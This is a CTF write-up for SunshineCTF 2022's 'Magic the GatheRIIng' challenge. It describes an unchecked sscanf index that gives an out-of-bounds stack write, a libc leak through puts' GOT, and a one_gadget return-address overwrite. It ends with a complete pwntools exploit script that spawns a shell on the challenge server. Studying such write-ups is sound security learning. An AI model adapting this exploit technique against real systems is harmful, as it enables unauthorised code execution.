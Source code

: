 ## [RII] Magic the GatheRIIng

was a pwn challenge from SunshineCTF 2022.

the program is a pseudo "magic the gathering" card game.

let's check binary protections:

![checksec](./pics/checksec.png)

ok so no PIE.

well the program present us a menu:

![menu](./pics/menu.png)

you can print rules, load cards, play the game (slow of fast), and exits..

well the vulnerability lies in the function at address 0x40153f:

![reverse](./pics/reverse.png)

if you look at the reverse produce by IDA,

you can see that the scanf function `__isoc99_sscanf(a2, "%hhd %c %s %d %d %d", &v4, &v5, v10, &v6, &v7, &v8)`

initialize various variables,  the `v4` variable is used to calculate the `v9` pointer a bit after `v9 = 24LL * v4 + a1;`

then this `v9` pointer is used to write the other values `v6`, `v7` and `v8` in particular.

the `v4` index is not checked for any bounds, and as `v9` is based on `a1` variable that points on stack,

we basically have an out of bounds write on stack.

We can only control `v6`, `v7`, and `v8` values , so a qword and a dword,..
 
we can only load cards two times, so we can only write two really controlled values on stack..

**So here is the plan**

* **First we will try to have a libc leak**

* **Second we will overwrite main return address with a one gadget**

When playing the game, a string "Basic Troll" or "Basic Land" is printed, via pointers to this strings..

Luckily for us, one of this pointer if reachable with our oob write on stack , the "Basic Land" sring pointer.

So we will overwrite this pointer, with the `puts()` function GOT address

Then we play a game , and when the game will try to print "Basic Land", it will leak `puts()` function libc address..

with this leak we will calculate libc base address.

The with our second oob write, we overwrite `main()` return address, with a onegadget..

And we we will exit, we will have a shell...

and that's All..

seeing is believing no?

![gotshell](./pics/gotshell.gif)

if you understand nothing of my explanation, well... just read the code

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("MagicTheGatheRIIng_patched")
libc = ELF("./libc.so.6")

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l0', filename]).decode().split(' ')]

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def sla(delim,line): return p.sendlineafter(delim,line)

host, port = "sunshinectf.games", "22002"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

# overwrite "Basic Land" string, with puts got address to leak libc address
sla('> ', '2')
payload = '20 m %p 0 '+str(0x405f60)+' 0\n'
sla(':\n', payload)

# get our leak
sla('> ', '4')
while(1):
  p.recvuntil('Drew ', drop=True)
  leak = p.recv(6)
  if 'Basic' not in leak:
    break
# calculate libc base
libc.address = u64(leak.ljust(8,b'\x00')) - libc.sym['puts']
logbase()
p.recvuntil('Simplified', drop=True)
onegadgets = one_gadget(libc.path, libc.address)

# overwrite return address with onegadgets
sla('> ', '2')
target = onegadgets[1]
payload = '45 m '+'\x40\x02\x03'+' 1337 '+str(target & 0xffffffff)+' '+str((target>>32) & 0xffffffff)+'\n'
sla(':\n', payload)
# return and get shell
sla('> ', '5%s')

p.interactive()
```

*nobodyisnobody still pwning...*
